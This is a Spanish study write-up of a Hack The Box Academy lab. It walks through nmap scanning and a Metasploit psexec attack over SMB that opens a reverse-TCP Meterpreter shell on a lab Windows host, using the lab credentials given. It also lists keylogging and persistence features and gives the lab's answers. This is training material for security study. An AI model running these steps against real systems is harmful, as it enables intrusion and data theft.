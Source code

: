 Con NMAP, realizamos una búsqueda básica de puertos abiertos sobre el host 10.129.164.24:

```shell-session
Polika4RM@htb[/htb]$ nmap -sC -sV -Pn 10.129.164.25

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-09 21:03 UTC
Nmap scan report for 10.129.164.25
Host is up (0.020s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
Host script results:
|_nbstat: NetBIOS name: nil, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:04:e2 (VMware)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-09-09T21:03:31
|_  start_date: N/A
```

Vemos que esta máquina Windows tiene el puerto 445 abierto, pues, probaremos Metasploit contra el servicio SMB.
Abrimos la consola de metasploit con el comando:
```
msfconsole
```

Buscaremos con metasploit módulos relacionados con el servicio SMB:
```shell-session
msf6 > search smb

Matching Modules
================

#    Name                                                          Disclosure Date    Rank   Check  Description
  -       ----                                                     ---------------    ----   -----  ---------- 
    ...
 52   auxiliary/dos/windows/smb/ms09_050_smb2_session_logoff                           normal     No     Microsoft SRV2.SYS SMB2 Logoff Remote Kernel NULL Pointer Dereference
 53   auxiliary/dos/windows/smb/vista_negotiate_stop                                   normal     No     Microsoft Vista SP0 SMB Negotiate Protocol DoS
 54   auxiliary/dos/windows/smb/ms10_006_negotiate_response_loop                       normal     No     Microsoft Windows 7 / Server 2008 R2 SMB Client Infinite Loop
 55   auxiliary/scanner/smb/psexec_loggedin_users                                      normal     No     Microsoft Windows Authenticated Logged In Users Enumeration
 56   exploit/windows/smb/psexec                                      1999-01-01       manual     No     Microsoft Windows Authenticated User Code Execution
 57   auxiliary/dos/windows/smb/ms11_019_electbowser                                   normal     No     Microsoft Windows Browser Pool DoS
 58   exploit/windows/smb/smb_rras_erraticgopher                      2017-06-13       average    Yes    Microsoft Windows RRAS Service MIBEntryGet Overflow
 59   auxiliary/dos/windows/smb/ms10_054_queryfs_pool_overflow                         normal     No     Microsoft Windows SRV.SYS SrvSmbQueryFsInformation Pool Overflow DoS
 60   exploit/windows/smb/ms10_046_shortcut_icon_dllloader            2010-07-16       excellent  No     Microsoft Windows Shell LNK Code Execution
```

Cada módulo tiene un número asociado a la izquierda del todo, que lo identifica. Este número no es fijo y depende de la búsqueda que realicemos.
Vamos a estudiar el *`56 exploit/windows/smb/psexec`*
- psexec define la herramienta que se utilizará para intentar vulnerar el sistema. 

Vamos a seleccionar tal módulo con:
```shell-session
msf6 > use 56

[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp

msf6 exploit(windows/smb/psexec) > 
```

Con *"options"* podemos visualizar las opciones que nos permite configurar dicho módulo:

```shell-session
msf6 exploit(windows/smb/psexec) > options

Module options (exploit/windows/smb/psexec):

   Name                  Current Setting  Required  Description
   ----                  ---------------  --------  -----------
   RHOSTS                                 yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                 445              yes       The SMB service port (TCP)
   SERVICE_DESCRIPTION                    no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                   no        The service display name
   SERVICE_NAME                           no        The service name
   SHARE                                  no        The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write fo
                                                    lder share
   SMBDomain             .                no        The Windows domain to use for authentication
   SMBPass                                no        The password for the specified username
   SMBUser                                no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     68.183.42.102    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```

Para que mi exploit funcione, tengo que configurar algunos parámetros, algunos de ellos obligatorios:
```shell-session
msf6 exploit(windows/smb/psexec) > set RHOSTS 10.129.180.71
RHOSTS => 10.129.180.71
msf6 exploit(windows/smb/psexec) > set SHARE ADMIN$
SHARE => ADMIN$
msf6 exploit(windows/smb/psexec) > set SMBPass HTB_@cademy_stdnt!
SMBPass => HTB_@cademy_stdnt!
msf6 exploit(windows/smb/psexec) > set SMBUser htb-student
SMBUser => htb-student
msf6 exploit(windows/smb/psexec) > set LHOST 10.10.14.222
LHOST => 10.10.14.222
```

Lanzamos el exploit y nos devuelve una sesión de meterpreter:
```shell-session
msf6 exploit(windows/smb/psexec) > exploit

[*] Started reverse TCP handler on 10.10.14.222:4444 
[*] 10.129.180.71:445 - Connecting to the server...
[*] 10.129.180.71:445 - Authenticating to 10.129.180.71:445 as user 'htb-student'...
[*] 10.129.180.71:445 - Selecting PowerShell target
[*] 10.129.180.71:445 - Executing the payload...
[+] 10.129.180.71:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 10.129.180.71
[*] Meterpreter session 1 opened (10.10.14.222:4444 -> 10.129.180.71:49675) at 2021-09-13 17:43:41 +0000

meterpreter > 
```

Metasploit hace varias cosas:
- Corre el exploit: Intenta aprovechar la vulnerabilidad del sistema objetivo (en este caso, SMB con psexec).
- Entrega el payload: Usa Meterpreter, un payload especial que abre un “canal de comunicación” con tu máquina.

----

## ¿Qué es Meterpreter:?

En ciberseguridad, una carga útil (PAYLOAD) es el código que se ejecuta en la máquina objetivo después de que un exploit aproveche una vulnerabilidad.

El exploit abre la puerta mientras que el PAYLOAD es el conjunto de órdenes que introduzco a la víctima para aprovecharme de ella. 

Yo podía:
- Subir y bajar archivos (`upload`, `download`).
- Migrar procesos (`migrate`).
- Tomar capturas de pantalla (`screenshot`).
- Registrar teclas (`keyscan_start`).
- Escalar privilegios con scripts.
- Persistencia en el sistema.

Puedo invocar a una *SHELL* escribiendo "shell".

---
**QUESTIONS**
**Target: 10.129.201.160**
**Authenticate to 10.129.201.160 (ACADEMY-SHELLS-WIN10MSF) with user "htb-student" and password "HTB_@cademy_stdnt!"**
**1. What command language interpreter is used to establish a system shell session with the target?**
En primer lugar, ejecutamos un escaneo básico de nmap para ver que puertos y servicios asociados están disponibles:
```
sudo nmap -sV --open --min-rate 2000 -Pn -n 10.129.201.160
```
Y encontramos:
```
PORT     STATE SERVICE      VERSION
7/tcp    open  echo
9/tcp    open  discard?
13/tcp   open  daytime      Microsoft Windows USA daytime
17/tcp   open  qotd         Windows qotd (English)
19/tcp   open  chargen
80/tcp   open  http         Microsoft IIS httpd 10.0
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
2179/tcp open  vmrdp?
Service Info: Host: SHELLS-WIN10; OS: Windows; CPE: cpe:/o:microsoft:windows
```
Tiene el puerto 445 abierto -> correspondiente al servicio SMB

Entramos a *msfconsole* y ejecutamos:
```
use exploit/windows/smb/psexec
set RHOSTS 10.129.201.160
set SMBPass HTB_@cademy_stdnt!
set SMBUser htb-student
run
```

Y vemos que durante la ejecución del PAYLOAD, se utiliza una PowerShell:

```
[msf](Jobs:0 Agents:0) exploit(windows/smb/psexec) >> run
[*] Started reverse TCP handler on 94.237.122.209:4444 
[*] 10.129.201.160:445 - Connecting to the server...
[*] 10.129.201.160:445 - Authenticating to 10.129.201.160:445 as user 'htb-student'...
[*] 10.129.201.160:445 - Selecting PowerShell target
[*] 10.129.201.160:445 - Executing the payload...
```

**2.  Exploit the target using what you've learned in this section, then submit the name of the file located in htb-student's Documents folder. (Format: filename.extension)**

Siguiendo los pasos anteriores, en el momento de ejecutar el comando se nos abre una sesión de meterpreter. 
Ejecutamos:
```
shell
```
Para acceder a una terminal shell de windows y accedemos al directorio users/htb-student/documents. 
En dicho directorio, se encuentra el archivo respuesta al ejercicio, llamado: *staffsalaries.txt*.

